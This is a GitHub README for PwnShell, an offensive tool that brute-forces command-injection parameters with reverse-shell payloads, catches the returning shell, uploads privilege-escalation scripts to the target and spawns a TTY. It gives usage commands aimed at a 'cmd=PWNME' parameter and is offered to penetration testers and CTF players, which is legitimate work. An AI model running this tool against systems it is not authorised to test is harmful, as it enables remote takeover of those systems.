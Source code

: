 

# PwnShell

### PwnShell is a Powerfull RevShell Bruteforcer and Connection Handler built For Security Researchers and CTF Players!
<details>
    <ol>
    <li><div>Bruteforces the Vulnerable Parameter</div></li>
    <li><div>Recieve and Handle the Connection</div></li>
    <li><div>Downloads Post exploitation scripts from their Repos.</div></li>
    <li><div>Uploads them to target</div></li>
    <li><div>Activates a TTY shell using Python3 </div></li>
    <li><div>Enjoy!</div></li>
  </ol>
</details>

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

## Navigation:
   <ol>
    <li><a href="#installation">Installation</a></li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>

## Installation:

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip3 install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage:
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable place in the parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIES (optional)] -k [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/vulnerable.php?cmd=PWNME --method GET --cookies '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable place in the parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

### For NodeJs Payloads:
```sh
./pwnshell.py -H [HOST-IP] -n   
  
#To use only -> require('child_process').exec('Payload')
```
## Preview:
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)

### NodeJs Payload:
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/NodeJs-prev.png)

<!-- CONTACT -->
## Contact:

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-abuqasem/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/) & [Github](https://github.com/omaralbalolly)

<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements:
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)

### TODO:
```sh
1- Add support for windows
2- Add more payloads and options
3- Add Post exploitation scripts for [linux/windows]
